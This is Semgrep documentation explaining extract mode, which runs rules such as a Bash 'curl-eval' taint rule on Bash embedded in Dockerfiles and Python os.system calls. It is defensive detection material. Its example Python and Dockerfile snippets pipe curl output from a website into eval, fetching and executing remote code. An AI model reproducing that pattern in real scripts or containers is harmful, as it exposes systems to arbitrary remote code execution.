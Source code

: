 ```yaml
---
id: extract-mode
append_help_link: true
description: "This article explains the extract mode, which allows for easier handling of files containing more than one language."
---
```


# Extract mode

## Introduction

Extract mode enables you to run existing rules on subsections of files where the rule language is different than the language of the file. For example, running a Javascript rule on code contained inside of script tags in an HTML document.

## Example of extract mode

Without extract mode, writing rules to validate template, Markdown or configuration files which contain code in another language can be burdensome and require significant rule duplication.

Let's take the following Bash rule as an example (a simplified version of [our `curl-eval` rule](https://github.com/returntocorp/semgrep-rules/blob/release/bash/curl/security/curl-eval.yaml)):

```yaml
rules:
  - id: curl-eval
    severity: WARNING
    languages:
      - bash
    message: Evaluating data from a `curl` command is unsafe.
    mode: taint
    pattern-sources:
      - pattern: |
          $(curl ...)
      - pattern: |
          `curl ...`
    pattern-sinks:
      - pattern: eval ...
```

Usually, this rule would only be run against Bash files. However, our project might contain Dockerfiles or Python scripts which invoke Bash commands&mdash;this rule won't currently be run against any Bash contained in those files.

However, with extract mode we can supplement our Bash rule with instructions on how to extract any Bash commands we might be using in a Docker `RUN` instruction or via Python's `os.system` standard library function.

```yaml
rules:
  - id: extract-docker-run-to-bash
    mode: extract
    languages:
      - dockerfile
    pattern: RUN $...CMD
    extract: $...CMD
    dest-language: bash
  - id: extract-python-os-system-to-bash
    mode: extract
    languages:
      - python
    pattern: os.system("$CMD")
    extract: $CMD
    dest-language: bash
```

By adding the above extract mode rules, Semgrep matches the below Python file, reporting the contained Bash as matching with the `curl-eval` rule.

```python
from os import system

if system('eval `curl -s "http://www.very-secure-website.net"`'):
    print("Command failed!")
else:
    print("Success")
```

Likewise, if our query included a Dockerfile with an offending Bash command, such as the example below, Semgrep would match the contained Bash and report a match with the `curl-eval` rule.

```dockerfile
FROM fedora
RUN dnf install -y unzip zip curl which
RUN eval `curl -s "http://www.very-secure-website.net"`
```

## Extract mode rule schema

Extract mode rules **require** the following [usual Semgrep rule keys](../../writing-rules/rule-syntax/#required):
  - `id`
  - `languages`
  - One of `pattern`, `patterns`, `pattern-either`, or `pattern-regex`

Extract mode rules **also require** two additional fields:
  - `extract`
  - `dest-language`

The extract mode specific fields are further explained in two sections below.

### `extract`

The `extract` key is required when in extract mode. The value must be a metavariable appearing in your pattern(s), and the value bound to that metavariable will be extracted.

### `dest-language`

The `dest-language` key is required when in extract mode. The value must be a [language tag](../../writing-rules/rule-syntax/#language-extensions-and-tags) other than `generic`.


## Limitations of extract mode

Currently, extract mode does not support additional processing for the extracted text, such as unescaping strings, which might be useful for some applications like Jupyter Notebooks.

While extract mode can help to enable rules which try and track taint across a language boundary within a file, taint rules cannot have a source and sink split across the original file and extracted text.
